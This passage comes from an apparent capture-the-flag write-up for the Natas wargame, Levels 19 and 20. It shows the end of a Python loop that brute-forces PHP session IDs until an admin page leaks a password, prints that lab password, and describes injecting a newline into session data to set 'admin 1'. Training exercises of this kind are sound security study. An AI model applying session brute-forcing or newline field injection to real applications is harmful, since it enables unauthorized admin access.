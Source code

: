 ```python
    print(f"Session {i}: {hex_str}")

    if "You are an admin" in response.text:
        start = response.text.find("Password: ") + 10
        end = response.text.find("</pre>", start)

        natas20_pw = response.text[start:end].strip()
        print(f"Password: {natas20_pw}")
        print("Finish!")
        break
```

After several attempts, I obtained the password when the `PHPSESSID` was 281.

**Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw**

![password](./pictures/level19/password.png)

## Level 20

![page](./pictures/level20/page.png)

Check the source code first. I found that this function, which writes conversation data to a file, does not filter `\n` when processing input data. This means that I can inject multiple elements and assign values to them. Here, I need to inject `admin 1`.
